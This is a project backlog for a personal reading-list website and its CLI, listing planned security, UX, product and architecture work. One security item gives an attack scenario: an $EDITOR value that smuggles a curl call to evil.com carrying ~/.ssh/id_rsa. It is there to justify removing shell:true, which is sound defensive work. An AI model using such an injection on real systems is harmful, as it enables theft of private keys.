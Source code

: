 # BACKLOG

Last groomed: 2025-10-27
Analyzed by: 7 specialized perspectives (complexity, architecture, security, performance, maintainability, UX, product)

---

## Now (Sprint-Ready, <2 weeks)

### [Security] Remove shell:true from CLI Editor - Command Injection Risk

**File**: `cli/lib/editor.ts:26`
**Perspectives**: security-sentinel
**Impact**: HIGH - Enables command injection via $EDITOR environment variable
**Attack Scenario**: `export EDITOR='vi; curl evil.com/$(cat ~/.ssh/id_rsa)' && npm run vanity -- quote add`→ Private key exfiltration
**Fix**: Remove`shell: true` from spawnSync call - not needed when passing editor as first arg
**Effort**: 5m | **Risk**: HIGH
**Acceptance**: CLI commands execute without shell interpretation, editor still opens correctly

### [UX - CRITICAL] Fix TypewriterQuotes Silent Failure

**File**: `src/app/components/TypewriterQuotes.tsx:30`
**Perspectives**: user-experience-advocate
**Impact**: Homepage becomes permanently broken with no user feedback when fetch fails
**Current**: Error only logged to console, user sees "Loading quotes..." indefinitely
**Fix**: Add error state with visible message and retry button

```typescript
const [error, setError] = useState<string | null>(null);
// Show: "Unable to load quotes. Please refresh the page." + Retry button
```

**Effort**: 20m | **Value**: Homepage resilient to network failures
**Acceptance**: Network failure shows user-visible error with recovery action

### [Product - HIGH VALUE] Add Search to Readings Page

**Scope**: New feature - search by title/author for 373+ books
**Perspectives**: product-visionary, user-experience-advocate
**Business Case**:

- 373 readings collection unusable without search - users must scroll entire list
- Transforms "browse-only" into "instant discovery" experience
- 80/20 high-leverage: Unlocks value of entire reading collection
- Missing table-stakes feature for content library
  **Implementation**:
- Add search input to ReadingsHeader
- Filter readings by title/author match
- Preserve existing favorites filter
- Show "no results" state with clear filters button
  **Effort**: 2h | **Value**: Critical usability unlock for large collection
  **Acceptance**: Users can type query and see instant filtered results, clear button resets, mobile-responsive

---

## Next (This Quarter, <3 months)

### [UX] Improve Error Messages Across App

**Files**: `src/app/readings/page.tsx:116`, CLI error handlers
**Perspectives**: user-experience-advocate, maintainability-maven
**Why**: Generic "An error occurred" messages with no context or recovery guidance
**Approach**:

- Readings page: Specific error messages with visual design (icons, retry button)
- CLI: Detailed error context (sharp failures → "Image corrupted, try re-saving")
- TypeScript discriminated unions for error types
  **Effort**: 3h | **Impact**: Users can self-recover vs abandoning, reduced support burden

### [UX] Add Mobile-Friendly Reading Card Interactions

**File**: `src/app/components/readings/ReadingCard.tsx`
**Perspectives**: user-experience-advocate
**Why**: Hover-only interactions exclude mobile users (40%+ traffic), audiobook/favorite badges invisible
**Approach**:

- Show audiobook/favorite badges always (not just on hover)
- Add "Tap for details" indicator on mobile
- Improve keyboard focus visibility
  **Effort**: 45m | **Impact**: Mobile users discover card features, WCAG compliance improved

### [Security] ~~Strengthen Path Traversal Protection in CLI~~ ✅ COMPLETED

**File**: `cli/lib/reading-image.ts:40-82`
**Status**: ✅ Completed in PR #81 (CLI refactoring)
**Implementation**:

- ✅ Resolves to absolute path, verifies within project root
- ✅ Checks for encoded characters (`%2e`, `%2f`)
- ✅ Validates file extension allowlist
- ✅ Enforces 10MB max file size
- ✅ Validates `..` and `~` patterns before operations
  **Result**: Comprehensive path traversal protection with well-documented rationale

### [Architecture] Clarify ReadingsList Component Purpose

**File**: `src/app/components/readings/ReadingsList.tsx`
**Perspectives**: architecture-guardian (from previous backlog)
**Why**: ReadingsList vs YearSection purpose unclear - potential for consolidation
**Approach**: Document when to use each component, or remove redundant abstraction
**Effort**: 30m (investigation + documentation) | 2-3h (consolidation if needed)

---

## Soon (Exploring, 3-6 months)

### CLI Reading Command Refinements (From PR #81 Code Review)

**Context**: Post-refactoring architectural improvements suggested by Claude/Codex reviews
**Perspectives**: architecture-guardian, maintainability-maven
**Why**: Further simplify orchestration functions, reduce cognitive load

- **[Architecture] Extract handleExistingReadings() reread logic** - 60-line function could split reread detection from user prompts
  - **Effort**: 2h | **Value**: Clearer separation of concerns, easier testing
  - **Approach**: Split into `detectExistingReadings()` and `promptRereadAction()`

- **[Architecture] Refactor applyUpdateAction() to strategy pattern** - Replace switch statement with polymorphic action handlers
  - **Effort**: 3h | **Value**: Extensible for new update actions, eliminates 100+ line switch
  - **Approach**: `{ finish: FinishAction, title: TitleAction, ... }` object lookup

- **[Architecture] Type refinement for date handling** - Use Date objects internally with serialization helpers
  - **Effort**: 4h | **Risk**: Breaking change to frontmatter types
  - **Value**: Type safety, eliminates string/ISO conversion logic
  - **Approach**: `finished?: Date | null` with `serializeFrontmatter()` / `deserializeFrontmatter()` helpers

---

- **[Product] Reading Statistics Dashboard** - Show reading pace, books per year, favorite authors analytics (requires grouping logic refactor, visualization library)
- **[Product] Export Functionality** - Export reading list to CSV/JSON for Goodreads import, backup (straightforward data transformation)
- **[Architecture] Extract Domain Repository Layer** - Isolate markdown storage from domain logic, enables future CMS migration (4h, future-proofs data layer)
- **[Product] Tags/Categories for Readings** - Genre tagging, multi-category filtering (requires content schema update, CLI changes)
- **[UX] Advanced Search & Filters** - Filter by year finished, audiobook status, date ranges, author (extends search feature from "Now")
- **[UX] Filter State Persistence** - Save filter preferences to localStorage (1h, nice quality of life)
- **[Performance] Parallel File Reads at Build Time** - 900 markdown files sequentially read, use Promise.all (1-2s build speedup, no user impact)
- **[UX] Keyboard Shortcuts** - Toggle favorites with 'f' key, navigation shortcuts (1h)
- **[Architecture] Refactor Layout System** - Move from global container + breakout utils to page-controlled containment (3-4h, eliminates negative margin hacks)

---

## Later (Someday/Maybe, 6+ months)

- **[Platform] RSS Feed for New Readings** - Subscribers notified of new books added
- **[Product] Public API** - JSON endpoints for readings/quotes data, enable third-party integrations
- **[Integration] Goodreads Sync** - Auto-import finished books from Goodreads API
- **[Product] Social Sharing** - Generate book recommendation cards for Twitter/social media
- **[Platform] Progressive Web App** - Offline reading list access, add-to-homescreen
- **[UX] Animated Filter Transitions** - Smooth fade transitions when filtering (polish)

---

## Learnings

**From this grooming session:**

- **CLI is the bottleneck**: reading.ts god object (988 lines) blocking CLI feature velocity - extract before adding more commands
- **Speculative generality trap**: 539 lines of unused hooks (useFormState, useSearchFilters) built for "future needs" that never came - delete immediately
- **Search is the unlock**: 373-book collection unusable without search - this single feature transforms UX from "browse-only" to "instant discovery"
- **Error visibility gap**: Multiple silent failures (TypewriterQuotes, generic errors) - users don't see when things break
- **Architecture is solid**: Zero circular dependencies, clean layers, excellent SSRF protection - focus on product features, not rewrites
- **Security mostly good**: One critical (docker-compose credentials), two high (command injection), rest is defense-in-depth polish
- **Performance already optimized**: Team eliminated 5.3MB dependencies, uses static generation, proper lazy loading - only minor wins left (unused deps)
- **Mobile UX needs attention**: Hover-only interactions exclude 40% of users, responsive layouts need polish

**Key Insight**: This codebase demonstrates excellent engineering fundamentals (architecture, security testing, performance). Primary opportunities are:

1. **Product value** (search for large collections)
2. **Developer velocity** (CLI refactoring to enable feature growth)
3. **UX polish** (error visibility, mobile interactions)

NOT rewrites or architectural overhauls - the foundation is sound.

---

_Run /backlog-groom quarterly to maintain strategic clarity and discover high-leverage opportunities._
